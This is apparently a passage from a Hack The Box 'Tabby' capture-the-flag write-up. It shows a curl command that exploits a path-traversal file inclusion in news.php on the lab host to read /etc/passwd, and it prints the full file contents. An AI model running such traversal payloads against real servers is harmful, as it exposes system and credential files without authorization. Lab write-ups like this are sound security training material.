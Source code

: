 #### 80/tcp-http

![](_/htb-tabby-20240809-1.png)

There's an easy LFI vulnerability:

```console
$ curl http://megahosting.htb/news.php?file=../../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
tomcat:x:997:997::/opt/tomcat:/bin/false
```